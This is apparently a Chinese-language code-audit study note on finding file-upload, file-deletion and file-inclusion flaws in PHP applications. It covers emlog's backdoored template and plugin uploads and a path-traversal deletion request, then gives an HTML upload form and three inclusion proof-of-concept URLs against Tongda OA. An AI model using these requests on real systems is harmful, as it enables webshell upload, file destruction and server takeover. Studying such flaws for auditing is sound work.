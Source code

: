 # 快速分析脆弱

1. 看文件路径
2. 看代码里面的变量（可控）
3. 看变量前后的过滤

# 文件安全挖掘点

1. 脚本文件名

2. 应用功能点

3. 操作关键字

文件上传，文件下载(读取)，文件包含，文件删除等

# emlog - 文件上传&文件删除

搜索函数关键字或应用关键字：

流程：搜`$_FILES`->**template.php**-> **upload_zip** ->**emUnZip**

流程：搜安装或上传等-> **template.php** -> **upload_zip** -> **emUnZip**

[https://www.cnvd.org.cn/flaw/show/CNVD-2023-74536](https://www.cnvd.org.cn/flaw/show/CNVD-2023-74536)

1. 压缩默认模版目录

2. 压缩一个带后门模版

3. 上传带后门模版压缩包

流程：搜$_FILES->plugin.php->upload_zip->emUnZip

流程：搜安装或上传等->plugin.php->upload_zip->emUnZip

https://www.cnvd.org.cn/flaw/show/CNVD-2023-74535

1、压缩默认插件目录

2、压缩一个带后门插件

3、上传带后门插件压缩包



流程：搜unlink->data.php->action=dell_all_bak->bak[]

https://www.cnvd.org.cn/flaw/show/CNVD-2021-41633

1、`/admin/data.php?action=dell_all_bak`

2、`bak[1]=../xxx.php`

# 通达OA - 文件上传&文件包含 

文件监控：file-jiankong.py

方便监控获取文件上传到什么地方



流程：找文件名->绕验证P->DEST_UID,UPLOAD_MOD->构ATTACHMENT

文件上传(文件名称)：/webroot/ispirit/im/upload.php

1、设置P参数不为0

2、设置`DEST_UID`参数为1

3、设置`UPLOAD_MODE`参数为1,2,3

4、设置上传文件参数名为`ATTACHMENT`

```html
<html>

<body>

<form action="http://127.0.0.1/ispirit/im/upload.php" method="post" enctype="multipart/form-data">

<input type="text"name="P" value=1></input>

<input type="text"name="UPLOAD_MODE" value=1></input>

<input type="text" name="DEST_UID" value=1></input>

<input type="file" name="ATTACHMENT"></input>

<input type="submit" ></input>

</body>

</html>
```

流程：搜`include_once`->gateway.php->`$url`->$key->$json

文件包含(include_once)：`/ispirit/interface/gateway.php`

poc1:

`/ispirit/interface/gateway.php?json={}&url=/general/../../attach/im/2310/1600449966.1.txt`

poc2:

`/ispirit/interface/gateway.php?json={}&url=/ispirit/../../attach/im/2310/1600449966.1.txt`

poc3:

`/ispirit/interface/gateway.php?json={}&url=/module/../../attach/im/2310/1600449966.1.txt`

